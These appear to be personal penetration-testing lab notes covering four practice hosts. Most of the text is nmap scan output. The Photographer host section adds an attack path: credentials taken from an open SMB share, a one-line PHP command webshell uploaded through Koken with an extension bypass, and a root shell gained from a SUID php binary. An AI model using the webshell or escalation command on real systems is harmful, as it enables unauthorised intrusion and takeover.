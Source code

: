 maguire-1: 192.168.100.224
Merciless: 192.168.100.39
morpheus-1: 192.168.100.22
adi-1: 192.168.100.149

## Maguire-1 192.168.100.224

Initial nmap scan:
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Immersion
```

## Merciless 192.168.100.39
Initial nmap scan:
```
53/tcp  open  domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)  
| dns-nsid:    
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu  
110/tcp open  pop3        Dovecot pop3d  
|_pop3-capabilities: CAPA AUTH-RESP-CODE UIDL STLS SASL TOP PIPELINING RESP-CODES  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server  
| Not valid before: 2018-08-24T13:22:55  
|_Not valid after:  2028-08-23T13:22:55  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
143/tcp open  imap        Dovecot imapd (Ubuntu)  
|_ssl-date: TLS randomness does not represent time  
|_imap-capabilities: OK LOGIN-REFERRALS STARTTLS IDLE IMAP4rev1 more listed SASL-IR have LOGINDISABLEDA0001 capabilities ENABLE Pre-login ID LITERAL+ post-  
login  
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server  
| Not valid before: 2018-08-24T13:22:55  
|_Not valid after:  2028-08-23T13:22:55  
445/tcp open              Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  
993/tcp open  ssl/imap    Dovecot imapd (Ubuntu)  
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server  
| Not valid before: 2018-08-24T13:22:55  
|_Not valid after:  2028-08-23T13:22:55  
995/tcp open  ssl/pop3    Dovecot pop3d  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server  
| Not valid before: 2018-08-24T13:22:55  
|_Not valid after:  2028-08-23T13:22:55  
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Host script results:  
| smb-os-discovery:    
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)  
|   Computer name: mercy  
|   NetBIOS computer name: MERCY\x00  
|   Domain name: \x00  
|   FQDN: mercy  
|_  System time: 2023-10-25T07:19:11+08:00  
| smb-security-mode:    
|   account_used: guest  
|   authentication_level: user  
|   challenge_response: supported  
|_  message_signing: disabled (dangerous, but default)  
| smb2-security-mode:    
|   3:1:1:    
|_    Message signing enabled but not required  
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)  
|_clock-skew: mean: -2h40m00s, deviation: 4h37m07s, median: -1s  
| smb2-time:    
|   date: 2023-10-24T23:19:11  
|_  start_date: N/A
```

## Morpheus 192.168.100.22
Initial nmap scan:
```
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)  
| ssh-hostkey:    
|_  256 aa:83:c3:51:78:61:70:e5:b7:46:9f:07:c4:ba:31:e4 (ECDSA)  
80/tcp open  http    Apache httpd 2.4.51 ((Debian))  
|_http-server-header: Apache/2.4.51 (Debian)  
|_http-title: Morpheus:1  
81/tcp open  http    nginx 1.18.0  
|_http-server-header: nginx/1.18.0  
| http-auth:    
| HTTP/1.1 401 Unauthorized\x0D  
|_  Basic realm=Meeting Place  
|_http-title: 401 Authorization Required  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Adi-1 192.168.100.149
Initial nmap scan:
```
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Photographer by v1n1v131r4  
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp  open  @           Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-trane-info: Problem with XML parsing of /evox/about  
|_http-title: daisa ahomi  
|_http-generator: Koken 0.22.24  
|_http-open-proxy: Proxy might be redirecting requests  
Service Info: Host: PHOTOGRAPHER  
  
Host script results:  
| smb2-security-mode:    
|   3:1:1:    
|_    Message signing enabled but not required  
| smb-security-mode:    
|   account_used: guest  
|   authentication_level: user  
|   challenge_response: supported  
|_  message_signing: disabled (dangerous, but default)  
|_clock-skew: mean: 1h19m58s, deviation: 2h18m35s, median: -2s  
| smb-os-discovery:    
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)  
|   Computer name: photographer  
|   NetBIOS computer name: PHOTOGRAPHER\x00  
|   Domain name: \x00  
|   FQDN: photographer  
|_  System time: 2023-10-24T19:20:06-04:00  
| smb2-time:    
|   date: 2023-10-24T23:20:05  
|_  start_date: N/A  
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

### 80

* apache site, seems useless

### 8000
* used daisa creds on /admin
* uploaded php webshell
	* `<?php system($_GET['cmd']);?>` > `balls.php.jpg`
	* pivoted to interactive php webshell cause it didn't work
	* used burp to change extension to balls.php
	* mouse over download file to get path
	* user flag: `d41d8cd98f00b204e9800998ecf8427e`

### 445
* found /sambashare
	* mailsent.txt
		* had creds daisa@photographer.com/babygirl
	* wordpress backup

### Privesc

SUID:
```
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
./usr/lib/xorg/Xorg.wrap
./usr/lib/snapd/snap-confine
./usr/lib/openssh/ssh-keysign
./usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/sbin/pppd
./usr/bin/pkexec
./usr/bin/passwd
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/php7.2
./usr/bin/sudo
./usr/bin/chsh
./usr/bin/chfn
./bin/ping
./bin/fusermount
./bin/mount
./bin/ping6
./bin/umount
./bin/su
```

* note php has SUID set
* used `php -r "pcntl_exec('/bin/sh', ['-p']);"` to spawn a root shell

### Report

#### Exposed SMB Share
#### Koken Authenticated Unrestricted File Upload
#### SUID set on PHP binary
